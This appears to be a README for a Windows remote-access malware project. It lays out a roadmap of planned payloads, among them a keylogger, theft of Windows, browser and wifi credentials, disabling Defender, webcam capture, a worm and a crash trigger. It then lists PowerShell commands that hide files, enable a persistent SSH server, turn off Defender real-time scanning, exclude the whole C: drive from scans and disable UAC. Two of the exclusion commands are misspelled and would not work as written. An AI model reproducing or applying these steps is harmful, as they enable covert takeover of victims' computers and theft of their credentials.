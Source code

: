 # Roadmap:
Target Build:
- [x] staging
- [x] remote access
- [x] config file builder [.? extension]

Attacker Build:
- [x] console build [python3]
- [ ] ssh append commands
- [x] update

Installers:
- [ ] listener option
- [ ] USB RubberDucky
- [ ] BashBunny
- [ ] shortcutting

Modules | Payloads:
- [x] remote console
- [ ] reconnaissance scan
	- web history
	- computer info
- [ ] escalation
	- windows account
	- web credentials
	- wifi credentials
- [ ] destroy defender
	- firewall
- [ ] keylogger
	- backspace detection
- [ ] screenshots
- [ ] webcam
- [ ] exfiltration
	- scp
- [ ] file upload
- [ ] worm
	- vbs special 
- [ ] custom desktop shortcuts
- [ ] adware
- [ ] killswitch
- [ ] break pc | bsod
- [ ] payload builder

Extraneous:	
- [ ] port forwarding
- [ ] vm detection
- [ ] obfuscation
- [ ] exploit for non priv users

# Resources:

## show/hide files
```
# show files
attrib -h -s -r FILE

# hide file
attrib +h +s +r FILE
```

## ssh
```
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Start-Service sshd
Set-Service -Name sshd -StartupType 'Automatic'
Get-NetFirewallRule -Name *ssh*
```

## exclusion path
```
Set-MpPreference -DisableRealtimeMonitoring true
Add-MpPreference -ExclusionPatch c:\
Add-MpPreference -EsclusionProcess c:\windows\system32\cmd.exe
```

## disable uac
```powershell
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0
```
